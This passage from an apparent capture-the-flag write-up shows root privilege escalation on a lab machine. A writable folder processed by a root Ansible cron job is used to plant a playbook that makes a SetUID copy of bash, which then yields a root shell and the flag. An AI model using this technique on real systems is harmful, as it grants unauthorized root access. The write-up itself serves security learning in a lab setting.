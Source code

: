 Which means that phil can write to this folder:

```

phil@inject:/opt/automation/tasks$ touch 0xdf
phil@inject:/opt/automation/tasks$ ls
0xdf  playbook_1.yml

```

### Execution Via Ansible

The simplest way to run some command via Ansible is with the built-in [Shell module](https://docs.ansible.com/ansible/latest/collections/ansible/builtin/shell_module.html). I’ll make a file that’s as simple as:

```
- hosts: localhost
  tasks:
  - name: '0xdf owns inject'
    shell: cp /bin/bash /tmp/0xdf; chmod 4755 /tmp/0xdf 

```

I’ll save this as `/opt/automation/tasks/0xdf.yml`. When the cron runs, there’s a new file in `/tmp`:

```

phil@inject:/opt/automation/tasks$ ls -l /tmp/0xdf
-rwsr-xr-x 1 root root 1183448 Mar 14 12:58 /tmp/0xdf  

```

This is a copy of `bash` that’s owned by root with the SetUID bit enabled. So when I run this (with `-p` to maintain privs), I get a shell as root:

```

phil@inject:/opt/automation/tasks$ /tmp/0xdf -p
0xdf-5.0# id
uid=1001(phil) gid=1001(phil) euid=0(root) groups=1001(phil),50(staff)   

```

More specifically, it’s with effective userid of 0 / root (check out [this post](/2022/05/31/setuid-rabbithole.html) for a detailed breakdown of what’s happening here). Regardless, I can read `root.txt`:

```

0xdf-5.0# cat root.txt
e6e4cee7************************

```